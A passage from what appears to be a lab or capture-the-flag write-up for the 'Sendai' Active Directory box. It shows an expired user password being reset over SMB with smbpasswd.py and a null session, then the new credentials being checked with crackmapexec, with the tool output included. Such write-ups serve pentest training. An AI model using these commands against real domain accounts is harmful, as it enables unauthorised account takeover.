 Just google 'STATUS_PASSWORD_MUST_CHANGE' and we find this : [https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/#brute-force-credentials](https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/#brute-force-credentials)

![alt text](../assets/image_sendai/1er.png)

So let's abuse of this :

```bash
# When the message 'Current SMB password:' appears just type [Enter]
smbpasswd.py sendai.vl/'Thomas.Powell':''@10.10.96.234 -newpass 'Toto01!'
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```
Do this for both users :

![alt text](../assets/image_sendai/2er.png)

```bash
# verify
cme smb 10.10.96.234 -u 'Thomas.Powell' -p 'Toto01!'

SMB         10.10.96.234    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.96.234    445    DC               [+] sendai.vl\Thomas.Powell:Toto01!
```
Now do a bloodhound
